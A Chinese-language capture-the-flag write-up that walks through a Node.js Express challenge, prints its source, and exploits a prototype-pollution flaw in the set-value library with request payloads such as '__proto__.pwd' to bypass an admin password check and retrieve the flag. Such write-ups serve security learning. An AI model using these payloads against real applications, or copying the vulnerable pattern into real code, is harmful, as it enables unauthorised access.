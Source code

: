 ### 覆盖变量

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67e23e120ba3d5a1d7e31e49.png)

扫描目录拿到源码

```js
var express = require('express');
const setFn = require('set-value');
var router = express.Router();


const Admin = {
    "password":process.env.password?process.env.password:"password"
}


router.post("/getflag", function (req, res, next) {
    if (req.body.password === undefined || req.body.password === req.session.challenger.password){
        res.send("登录失败");
    }else{
        if(req.session.challenger.age > 79){
            res.send("糟老头子坏滴很");
        }
        let key = req.body.key.toString();
        let password = req.body.password.toString();
        if(Admin[key] === password){
            res.send(process.env.flag ? process.env.flag : "flag{test}");
        }else {
            res.send("密码错误，请使用管理员用户名登录.");
        }
    }

});
router.get('/reg', function (req, res, next) {
    req.session.challenger = {
        "username": "user",
        "password": "pass",
        "age": 80
    }
    res.send("用户创建成功!");
});

router.get('/', function (req, res, next) {
    res.redirect('index');
});
router.get('/index', function (req, res, next) {
    res.send('<title>BUGKU-登录</title><h1>前端被炒了<br><br><br><a href="./reg">注册</a>');
});
router.post("/update", function (req, res, next) {
    if(req.session.challenger === undefined){
        res.redirect('/reg');
    }else{
        if (req.body.attrkey === undefined || req.body.attrval === undefined) {
            res.send("传参有误");
        }else {
            let key = req.body.attrkey.toString();
            let value = req.body.attrval.toString();
            setFn(req.session.challenger, key, value);
            res.send("修改成功");
        }
    }
});

module.exports = router;
```

首先分析登录的路由

当我们请求的密码 password 不为空，age 要小于 79,并且密码等于 admin 的密码就登陆成功获得 flag

```js
router.post("/getflag", function (req, res, next) {
    // 1. 密码基础验证
    if (req.body.password === undefined || req.body.password === req.session.challenger.password){
        res.send("登录失败");
    }else{
        // 2. 年龄检查
        if(req.session.challenger.age > 79){
            res.send("糟老头子坏滴很");
        }
        
        // 3. 参数处理
        let key = req.body.key.toString();
        let password = req.body.password.toString();
        
        // 4. 管理员验证
        if(Admin[key] === password){
            res.send(process.env.flag ? process.env.flag : "flag{test}");
        }else {
            res.send("密码错误，请使用管理员用户名登录.");
        }
    }
});
```

再看看注册路由

这里创建的用户默认 age=80，需要修改

```js
router.get('/reg', function (req, res, next) {
    req.session.challenger = {
        "username": "user",
        "password": "pass",
        "age": 80
    }
    res.send("用户创建成功!");
});
```

![](https://pic1.imgdb.cn/item/67e23f280ba3d5a1d7e31e8c.png)

再去看看另一个路由

```js
router.post("/update", function (req, res, next) {
    // 1. 检查会话中是否有challenger对象
    if(req.session.challenger === undefined){
        res.redirect('/reg');
    }else{
        // 2. 检查请求体参数是否完整
        if (req.body.attrkey === undefined || req.body.attrval === undefined) {
            res.send("传参有误");
        }else {
            // 3. 获取并转换参数
            let key = req.body.attrkey.toString();
            let value = req.body.attrval.toString();
            
            // 4. 使用setFn更新属性
            setFn(req.session.challenger, key, value);
            
            // 5. 返回成功响应
            res.send("修改成功");
        }
    }
});
```

漏洞位于 setFn() 函数中

如果攻击者控制`attrkey`参数为`__proto__.polluted` 修改 Object 的原型，影响所有对象

利用这个路由去更新 age 属性小于 79

```
attrkey=age&attrval=20
```

![](https://pic1.imgdb.cn/item/67e242870ba3d5a1d7e31f47.png)

再修改密码和 admin 一致

```
attrkey=__proto__.pwd&attrval=admin
```

然后登陆获取 flag

```
password=admin&key=pwd
```

![](https://pic1.imgdb.cn/item/67e245630ba3d5a1d7e32179.png)